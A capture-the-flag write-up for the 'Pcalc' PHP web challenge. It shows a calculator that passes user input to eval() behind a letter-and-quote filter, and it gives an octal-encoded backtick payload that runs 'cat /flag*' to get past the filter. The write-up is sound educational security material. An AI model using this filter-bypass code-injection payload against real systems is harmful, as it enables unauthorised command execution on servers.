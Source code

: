 ```yaml
---
title: Pcalc
date: 2021-04-25 18:15:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains _code execution_ but with a little twist. We can't use letters and those characters `'"\[]`. So we have to somehow bypass a filter. For more information about this sort of thing I recommend looking at this [article](https://www.programmersought.com/article/7881105401/) and this [one](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#using-octal). (\* ^ ω ^)

Looking at `index.php` we can see there is only one route:
```php
$router = new Router();
$router->new('GET', '/', 'CalcController@index');
```
The controller `CalcController.php` looks like this:
```php
<?php
class CalcController
{
    public function index($router)
    {
        $formula = isset($_GET['formula']) ? $_GET['formula'] : '100*10-3+340';
        $calc = new CalcModel();
        return $router->view('index', ['res' => $calc->getCalc($formula)]);
    }
}
```
## Vulnerability
After analysing the source code we see the code is vulnerable to code execution due to the `eval` function. We only need to bypass the `preg_match_all` function.
Here is the vulnerable code:
```php
<?php
class CalcModel
{
    public static function getCalc($formula)
    {
        if (strlen($formula) >= 100 || preg_match_all('/[a-z\'"]+/i', $formula)) {
            return '🤡 dont bite the hand that feeds you human 🤡';
        }
        try {
            eval('$pcalc = ' . $formula . ';');
            return isset($pcalc) ? $pcalc : '?';
        }
        catch (ParseError $err) {
           return '🚨 report to the nearest galactic federation agency 🚨';
        }  
    }
}
```
## Exploitation
We simply input `` `\143\141\164\40\57\146\154\141\147\52` `` (note the backticks) which is octal encoded for `cat /flag*` and we get the flag:

> CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!}

٩(◕‿◕｡)۶
